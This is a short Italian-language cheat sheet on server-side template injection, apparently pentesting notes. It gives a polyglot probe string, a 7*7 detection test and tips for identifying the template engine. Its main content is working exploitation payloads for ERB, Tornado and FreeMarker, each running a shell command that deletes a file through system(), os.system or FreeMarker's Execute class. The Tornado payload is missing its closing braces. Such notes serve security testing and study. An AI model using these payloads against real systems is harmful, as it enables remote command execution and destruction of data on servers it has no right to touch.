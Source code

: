 # Caratteri di verifica:
* ${{<%[%'"}}%\

# Detection
* Usare i simboli base per vedere se qualcuno causa qualche effetto indisiderato (come rendere invisibile una parte di testo);
* Inserire fra l'apertura e la chiusura 7*7. Se viene stampato 49 allora è responsive e vulnerabile;

# Identification
* Causare uno stacktrace per leggere il nome del template engine usato;
* Trovare qualche informazione nel codice sorgente.

# Exploitation
(ricordati di codificare i payload in URL syntax)
## ERB
```
<%= system("rm /path/to/file.txt") %>
```

## Tornado
```
{% import os %}
{{os.system('rm /path/to/file.txt')
```

## FreeMarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /path/to/file.txt") }
```
